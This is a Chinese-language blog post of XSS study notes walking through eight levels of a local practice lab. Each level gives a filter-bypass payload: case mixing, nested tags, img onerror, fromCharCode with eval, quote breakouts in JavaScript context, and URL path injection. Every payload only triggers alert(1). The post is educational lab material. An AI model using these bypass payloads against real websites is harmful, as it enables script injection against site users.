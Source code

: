 ```yaml
---
title: XSS学习笔记
tags: [XSS]
categories: [网络安全]
date: 2016-03-23 21:47:05
---
```


跨站脚本 (Cross-Site Scripting, `XSS`) 是一种经常出现在Web应用程序中的计算机安全漏洞。
形成原因和SQL注入一样, 是因为Web容器将用户提交的**数据**当代码解析执行了。

下面, 我们将用自己搭建的本地环境测试, 介绍一下XSS通常都有哪些**姿势**

<!-- more -->

**[XSS环境下载地址](https://github.com/kba977/xss_labs)**, 大家可以对照源码来学习XSS的绕过姿势。

## 1. 第一关 
非常简单, 直接输入payload即可。

    <script>alert(1)</script> 

    http://10.211.55.7/xss/example1.php?name=<script>alert(1)</script>
![](https://blog-1256977701.cos.ap-chengdu.myqcloud.com/XSS学习笔记/1_第一关.jpg)

## 2. 第二关
过滤掉了**小写**的**script**, 可以使用大小写混合的方法绕过。

    <sCrIpt>alert(1)</sCriPt>

    http://10.211.55.7/xss/example2.php?name=<sCrIpt>alert(1)</sCriPt>
![](https://blog-1256977701.cos.ap-chengdu.myqcloud.com/XSS学习笔记/1_第二关.jpg)

## 3. 第三关
过滤了**不区分大小写**的`<script>`与`</script>`，可以使用**嵌套**的script标签绕过。

    <sc<script>ript>alert(1)</sc</script>ript>

    http://10.211.55.7/xss/example3.php?name=<sc<script>ript>alert(1)</sc</script>ript>
![](https://blog-1256977701.cos.ap-chengdu.myqcloud.com/XSS学习笔记/1_第三关.jpg)

## 4. 第四关
判断包含`script`字符串即报错, 可以使用其他标签如`img`绕过。

    <img src=x onerror="alert(1)">

    http://10.211.55.7/xss/example4.php?name=<img src=x onerror="alert(1)">
![](https://blog-1256977701.cos.ap-chengdu.myqcloud.com/XSS学习笔记/1_第四关.jpg)

## 5. 第五关
判断包含alert字符串即报错, 可以使用编码方式绕过。

    <script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script>
    或
    <img src=x onerror="eval(String.fromCharCode(97,108,101,114,116,40,49,41))">

    http://10.211.55.7/xss/example5.php?name=<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script>
![](https://blog-1256977701.cos.ap-chengdu.myqcloud.com/XSS学习笔记/1_第五关.jpg)

## 6. 第六关
直接在js环境中输出php变量, 可以通过构造js脚本绕过。

    ";b=alert(1); eval(b);//
    或
    ";alert(1);//
    或
    </script><script>alert(1)// (通过直接闭合前前后`script`来达到目的, 该方法在第七关不可用, 因为`<`和`>`被实体编码了/(ㄒoㄒ)/~~)

    http://10.211.55.7/xss/example6.php?name=";b=alert(1);eval(b);//
![](https://blog-1256977701.cos.ap-chengdu.myqcloud.com/XSS学习笔记/1_第六关.jpg)

## 7. 第七关
在js环境中输出通过html编码的php变量, `htmlentities`没有过滤单引号, 使用单引号绕过。

    ';b=alert(1);eval(b);//
    或
    ';alert(1);//

    http://10.211.55.7/xss/example7.php?name=';b=alert(1);eval(b);//
![](https://blog-1256977701.cos.ap-chengdu.myqcloud.com/XSS学习笔记/1_第七关.jpg)

## 8. 第八关
第八个xss的post地址使用了当前url, 达到构造当前url地址达到xss目的

    /"method="post"><script>alert(1)</script>

    http://10.211.55.7/xss/example8.php/"method="post"><script>alert(1)</script>
![](https://blog-1256977701.cos.ap-chengdu.myqcloud.com/XSS学习笔记/1_第八关.jpg)

另外, 介绍另外几个**payload**

- `"/><svg/onload=alert(1)>` 可绕过前4关
- `"></script><c/onclick=confirm(1)>ccc` 可绕过第5和第6关

最后, 推荐 google 的 xss-game, 共6关, 有兴趣的同学可以试试哟 :P

[Google的xss-game(需翻墙)](https://xss-game.appspot.com/)